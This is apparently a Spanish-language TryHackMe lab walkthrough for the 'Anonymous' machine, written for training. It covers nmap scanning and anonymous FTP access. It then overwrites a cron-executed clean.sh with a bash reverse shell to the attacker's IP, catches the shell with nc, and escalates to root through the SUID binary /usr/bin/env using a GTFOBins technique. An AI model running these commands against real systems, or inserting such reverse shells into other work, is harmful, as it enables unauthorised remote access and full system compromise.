 # Ejercicio Práctico – Explotación FTP login Anonymous + Escalada de Privilegios Binarios SUID

Maquinas que vamos a utilizar **Kali Linux y Anonymous**

[https://tryhackme.com/room/anonymous](https://tryhackme.com/room/anonymous)

```bash
ifconfig
```

![image.png](./imagenes/image%2048.png)

Mi IP: 10.21.166.149

```bash
ping -c 1 10.10.47.179
```

![image.png](./imagenes/image%2049.png)

```bash
nmap -p- -sS -sV -sC --open -min-rate=2000 -n -vvv -Pn 10.10.47.179
```

![image.png](./imagenes/image%2050.png)

`21/tcp  open  ftp         syn-ack ttl 63 vsftpd 2.0.8 or later`

`22/tcp  open  ssh         syn-ack ttl 63 OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)`

`139/tcp open  netbios-ssn syn-ack ttl 63 Samba smbd 3.X - 4.X (workgroup: WORKGROUP)`

`445/tcp open  netbios-ssn syn-ack ttl 63 Samba smbd 4.7.6-Ubuntu (workgroup: WORKGROUP)`

- Entramos en el FTP aprovechando que tiene habilitada la entrada **anonymous**
    
    ```bash
    ftp 10.10.47.179
    ```
    
    ![image.png](./imagenes/image%2051.png)
    
    `ls`
    
    ![image.png](./imagenes/image%2052.png)
    

`cd scripts`

`ls`

![image.png](./imagenes/image%2053.png)

- Mirándolo así da que pensar que el archivo [clean.sh](./imagenes/http://clean.sh) se ejecuta de forma automatizada. Nos descargamos el archivo a nuestra maquina para examinarlo y nos salimos del FTP.
    
    `get clean.sh`
    
    `exit`
    
    ![image.png](./imagenes/image%2054.png)
    

- Miramos el contenido de [clean.sh](./imagenes/http://clean.sh) mediante **cat** para entender lo que hace.
    
    ```bash
    cat clean.sh
    ```
    
    ![image.png](./imagenes/image%2055.png)
    
    La explicación rápida seria que este archivo se ejecuta cada cierto tiempo para hacer limpieza de Logs del sistema.
    
- Vamos a **crear un clean.sh malicioso** y lo subiremos a la maquina.
    - editamos clean.sh y eliminamos su contenido y lo vamos a sustituir por el de una reverse shell.
        
        ```bash
        nano [clean.sh](./imagenes/http://clean.sh) 
        ```
        
        `#!/bin/bash
        
        bash -i >& /dev/tcp/10.21.166.149/443 0>&1`
        
        ![image.png](./imagenes/image%2056.png)
        
- Volvemos a entrar en el FTP.
    
    ```bash
    ftp 10.10.47.179 
    ```
    
    ![image.png](./imagenes/image%2057.png)
    
    - Nos movemos a la carpeta scripts
        
        `cd scripts`
        
        `ls`
        
        ![image.png](./imagenes/image%2058.png)
        
    - Subimos el archivo modificado a la maquina victima. Y salimos del FTP
        
        `put clean.sh`
        
        ![image.png](./imagenes/image%2059.png)
        
        ![image.png](./imagenes/image%2060.png)
        
        Nos sustituye el archivo original por el nuestro.
        
        `exit`
        

- Nos ponemos a la escucha por el puerto 443 y veremos que después de un rato tendríamos la conexión.
    
    ```bash
    nc -nlvp 443
    ```
    
    ![image.png](./imagenes/image%2061.png)
    
    - Hacemos un tratamiento de la TTY
        
        `script /dev/null -c bash`
        
        `CTRL+Z`
        
        ![image.png](./imagenes/image%2062.png)
        
        ```bash
        stty raw -echo; fg
        ```
        
        `reset xterm`
        
        ![image.png](./imagenes/image%2063.png)
        
        `export TERM=xterm`
        
        `export SHELL=bash`
        
        ![image.png](./imagenes/image%2064.png)
        
    - Vamos a enumerar dentro de la maquina binarios vulnerables SUID.
        
        `find / -perm -4000 2>/dev/null`
        
        ![image.png](./imagenes/image%2065.png)
        
    - Usamos la pagina de [https://gtfobins.github.io/](./imagenes/https://gtfobins.github.io/) para probar cual de ellos es vulnerable. En mi caso seria **/usr/bin/env**
        
        ![image.png](./imagenes/image%2066.png)
        
        - Probamos **env /bin/sh -p**
            
            `/usr/bin/env /bin/sh -p` 
            
            ![image.png](./imagenes/image%2067.png)
            
            `/usr/bin/env`: La ruta absoluta que nos aparece al buscar con find
            
            `/bin/sh -p`: código que hemos encontrado en [https://gtfobins.github.io/](./imagenes/https://gtfobins.github.io/).
            
        - Miramos quienes somos y veos que somos root.
            
            `whoami`
            
            ![image.png](./imagenes/image%2068.png)